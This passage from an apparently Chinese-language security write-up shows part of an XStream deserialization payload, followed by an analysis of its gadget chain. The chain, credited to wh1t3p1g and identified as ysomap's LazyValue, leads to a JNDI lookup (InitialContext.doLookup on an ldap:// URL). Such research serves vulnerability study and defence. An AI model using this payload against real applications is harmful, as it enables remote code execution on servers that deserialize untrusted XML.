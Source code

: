 ```xml
          <resourceCache/>
        </default>
      </javax.swing.UIDefaults>
      <javax.swing.MultiUIDefaults>
        <default>
          <tables>
            <javax.swing.UIDefaults serialization='custom'>
              <unserializable-parents/>
              <hashtable>
                <default>
                  <loadFactor>0.75</loadFactor>
                  <threshold>525</threshold>
                </default>
                <int>700</int>
                <int>1</int>
                <string>lazyValue</string>
                <sun.swing.SwingLazyValue>
                  <className>javax.naming.InitialContext</className>
                  <methodName>doLookup</methodName>
                  <args>
                    <string>ldap://localhost:1099/CallRemoteMethod</string>
                  </args>
                </sun.swing.SwingLazyValue>
              </hashtable>
              <javax.swing.UIDefaults>
                <default>
                  <defaultLocale reference='../../../../../../../javax.swing.UIDefaults/default/defaultLocale'/>
                  <resourceCache/>
                </default>
              </javax.swing.UIDefaults>
            </javax.swing.UIDefaults>
          </tables>
        </default>
      </javax.swing.MultiUIDefaults>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

### [](#分析-2 "分析")分析

这个是wh1t3p1g师傅上交的，实际为ysomap里的LazyValue，师傅给的调用链分析

```plain
javax.naming.ldap.Rdn$RdnEntry.compareTo
    com.sun.org.apache.xpath.internal.objects.XString.equal
        javax.swing.MultiUIDefaults.toString
            UIDefaults.get
                UIDefaults.getFromHashTable
                    UIDefaults$LazyValue.createValue
                    SwingLazyValue.createValue
                        javax.naming.InitialContext.doLookup()
```
